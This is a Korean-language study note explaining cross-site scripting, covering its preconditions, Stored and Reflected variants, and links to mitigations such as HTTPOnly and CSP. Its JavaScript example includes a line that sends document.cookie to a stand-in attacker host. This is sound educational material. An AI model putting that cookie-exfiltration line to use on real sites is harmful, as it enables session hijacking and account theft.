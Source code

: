 # XSS

공격자의 입력값이 자바스크립트의 일부로 웹 브라우저에서 실행되는 취약점을 말한다.

## 목차

1. [xss를 성공하기 위해서](./#xss를-성공하기-위해서)
2. [XSS with JavaScript](./#XSS-with-Javascript)
3. [Stored XSS](./#stored-xss)
4. [Reflected XSS](./#reflected-xss)
5. [해결방안](./#해결방안)

## xss를 성공하기 위해서

XSS공격을 성공하기 위해서는 통상적으로 두가지의 조건이 전제되어야 한다.

1. 입력 데이터에 대한 충분한 검증 과정이 없어야 한다.
   * 입력한 데이터가 충분한 검증 과정이 없어,

     악성스크립트가 삽입 될 수 있어야 한다.
2. 서버의 응답 데이터가 웹 브라우저 내 페이지에 출력 시 충분한 검증 과정이 없어야 한다.
   * 웹 브라우저에서 출력 시 필터링에 걸리지 않아야한다.

이들의 대표적인 예시로는 게시판 서비스이며, 이는 게시글이 검증되지 않을 경우 해당 게시글의 이용자들이 악성스크립트가 그대로 실행되기 때문에 위험하다.

```text
+ 악성스크립트가 전달되는 방식에 따라
  Stored XSS
  Reflected XSS
  등 여러가지로 나뉜다.

  하지만 취약점의 원인은 동일하다.
```

## XSS with Javascript

JS는 사용자의 웹 브라우저에서 동적으로 보여주거나, 화면 구성을 변환하거나, 자동으로 버튼을 누르는 등의 작업을 할 때 많이 사용된다.

이런 JS는 웹 브라우저나 웹의 입장에서 상당히 접근성이 높기에 페이지 내용 조작, 위치 주소 변경, 개인정보 유출 등 다양한 방식으로 동작 시킬 수 있기때문에 이는 XSS에 다양하게 이용된다.

이를 작동시키는 대표적인 방법은

```markup
    <script>
        alert("hello");
        //hello 문자열 alert 실행

        document.cookie; 
        //현재 페이지의 cookie 리턴

        alert(document.cookie);
        //현재 페이지의 cookie값 alert 실행

        document.cookie = "name=test;";
        //도큐먼트의 쿠키 생성, (key: name, value: test)


        new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
        // new Image() 는 이미지를 생성하는 함수이며,
        // src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
        // "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키"
        //주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
    </script>
```

이 처럼 script태그를 이용하는 방식이 있으며, 특정상황을 이용하는 on\* 이벤트들을 이용하는 경우도 있다.

## Stored XSS

이는 악성 스크립트가 서버 내에 저장되어있다가, 사용자가 이 스크립트를 조회하는 순간 발생하는 형태의 XSS이다.

이는 게시판과 같은 형태에서는 불특정 다수에게 공격이 가능하다는 점에서 높은 파급력이 생길 가능성이 존재한다.

## Reflected XSS

이는 악성스크립트가 사용자의 요청 시 전송되는 형태이다.

사용자의 요청 데이터가 서버의 응답에 포함되는 과정에서 악성스크립트가 그대로 출력되어 발생하게 된다.

이는 Stored XSS와는 다르게 사용자의 요청 데이터에 의해 취약점이 발생하기 때문에, 변조된 데이터가 사용자의 요청으로 전송되는 형태를 유도하여야 한다.

가장 간단한 방법은 특정 링크를 유도하는 방식이 있으며, Click Jacking, Open Redirect등의 취약점과 연계할 수 있다.

대표적인 예로는 게시물들을 조회하기 위해 입력한 데이터에 의한 방식이 있다. 해당요청에 의하여 조회 한 결과를 응답에 출력하는데, 이때 서버가 제대로 방어를 하지않으면 Reflected XSS로 이어질 수 있다.

## 해결방안

1. [Server-side Mitigations](server-side.md)
2. [HTTPOnly 플래그 사용](https://github.com/sunrabbit123/TIL/tree/f35c1dcd3c295d492c3895fd89eff46c83899885/Security/Dreamhack/Client-side/XSS/HTPPOnly.md)
3. [Content Security Policy 사용](csp.md)
4. [X-XSS-Protection](x-xss-protection.md)

[**Home**](https://github.com/sunrabbit123/Learn_Web_Security)

